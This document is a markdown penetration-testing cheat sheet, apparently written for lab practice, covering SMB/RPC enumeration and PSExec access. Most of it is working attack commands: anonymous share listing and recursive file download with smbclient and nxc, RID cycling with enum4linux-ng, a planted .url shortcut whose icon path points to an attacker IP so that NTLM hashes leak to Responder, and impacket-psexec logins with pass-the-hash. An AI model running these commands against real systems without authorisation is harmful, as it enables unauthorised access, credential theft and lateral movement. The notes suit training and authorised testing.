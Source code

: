# RPC/SMB

- try null logins (anonymous logins)
- credentials can sometimes be re-used or repeat credentials set (eg. ftp:ftp, admin:admin, smb:smb)
- can you upload files? maybe a URI attack? 

```bash
smbclient -N -L \\<target ip>\ # you should always consider using this. sometimes nxc and enum4linux-ng doesnt work properly

smb> recurse
smb> prompt off
smb>mget * 

# alternative smbclient one liner to recursive download
smbclient //<ip>/<share> -U <domain>/<user> -c 'prompt OFF;recurse ON;mget *'

# OR my preferred method
nxc smb <target ip> -u '' -p '' --shares

# if can access, use the spider module

nxc smb <target ip> -u '' -p '' --spider <share name> --regex .

# to list all readable files

nxc smb <target ip> -u '' -p '' -M spider_plus

#add -o DOWNLOAD_FLAG=True to download all files

enum4linux-ng -A <targetip> -R # the new enum4linux does not do RID cycling by default and thus can miss out users. add the -R to get RID cycling!

# if you can upload files, try running responder and then do this

upload any file there # you might get hash here

# if nothing happens, try this

create a file (name it as offsec.url for example)

# inside that file
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\<attacker ip>\%USERNAME%.icon
IconIndex=1

# upload offsec.url into the share
If this works you should see the username and hash (might need to wait a while)

```
- if not, wait till you have some creds and try again
- If you get a share name that looks unique, it could be a potential directory on a HTTP server (i.e. the Shenzi box)

# PSExec

If you happen to have some credentials, PSExec might sometimes work - usually requires sufficient privileges/rights be be able to write into shared folders (mainly C$ or ADMIN$).

Can also be used with pass the hash techniques

```bash
# remember to escape special characters if required
impacket-psexec <user>:<password>@<ip>

# pass the hash requires the full NTLM hash
impacket-psexec <user>@<ip> -hashes LM:NT

# if only the NT hash exists
impacket-psexec <user>@<ip> -hashes :NT
```